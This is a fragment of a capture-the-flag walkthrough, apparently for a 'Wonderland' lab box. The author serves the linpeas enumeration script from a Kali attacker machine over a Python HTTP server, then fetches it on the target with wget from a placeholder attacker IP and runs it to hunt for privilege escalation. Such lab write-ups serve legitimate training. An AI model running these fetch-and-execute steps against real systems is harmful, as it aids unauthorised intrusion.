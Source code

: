 We found out that there is a **"root.txt"** file but we cannot view the content of it and **there is another ".py" script**:

![img](walrus.png)

I also tried to fetch the **linpeas** script to make it easy for me.

In Attacker Machine:
```
┌──(kali㉿kali)-[~/upload]
└─$ ls
linpeas.sh

┌──(kali㉿kali)-[~/upload]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In **Target** Machine:
```
alice@wonderland:~$ cd /tmp

alice@wonderland:~$ wget http://<ATTACKER-IP>/linpeas.sh

alice@wonderland:~$ chmod +x linpeas.sh; ./linpeas.sh
```
